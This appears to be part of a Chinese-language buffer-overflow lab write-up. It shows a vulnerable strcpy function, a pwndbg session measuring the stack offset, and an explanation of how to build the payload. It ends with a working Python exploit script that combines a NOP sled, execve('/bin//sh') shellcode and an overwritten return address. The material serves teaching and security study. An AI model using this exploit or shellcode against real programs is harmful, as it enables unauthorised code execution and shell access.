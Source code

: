 ```shell
   16 {
   17     char buffer[BUF_SIZE];
   18 
   19     // The following statement has a buffer overflow problem 
 ► 20     strcpy(buffer, str);       
   21 
   22     return 1;
   23 }
   24 
   25 int main(int argc, char **argv)
───────────────────────────────────[ STACK ]────────────────────────────────────
00:0000│ esp 0xffffc820 —▸ 0xf7ffd608 (_rtld_global+1512) —▸ 0xf7fc6000 ◂— 0x464c457f
01:0004│     0xffffc824 —▸ 0x56557031 ◂— 0x3d3d3d00
02:0008│     0xffffc828 —▸ 0xffffccb4 ◂— 0x0
03:000c│     0xffffc82c ◂— 0x0
... ↓        4 skipped
─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► 0 0x5655621e bof+17
   1 0x56556342 dummy_function+58
   2 0x565562da main+158
   3 0xf7c21519 __libc_start_call_main+121
   4 0xf7c215f3 __libc_start_main+147
   5 0x5655610b _start+43
────────────────────────────────────────────────────────────────────────────────
pwndbg> p $ebp
$1 = (void *) 0xffffc898
pwndbg> p &buffer
$2 = (char (*)[100]) 0xffffc82c
pwndbg> x 0xffffc898 - 0xffffc82c
0x6c:	Cannot access memory at address 0x6c
pwndbg> q
```

**构造python脚本**：根据动态调试结果构造python脚本如下，python脚本对content（即payload）变量进行三次赋值，第一次赋值为长度为517字节全`\x90`，第二次将content末尾修改为shellcode，最后将rbp寄存器指向地址修改为程序原本返回的地址（防止程序在执行shellcode前因无法执行返回操作而崩溃）。注意gdb调试获取到的栈指针地址与实际运行会略有不同，因为gdb会将一些环境数据压入栈中，导致实际的栈指针变量会偏大，因此在构造payload时，ret的值并不是ebp，而是应该增大一些（>=96）。

```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)            # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcd98 + 96           # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################
```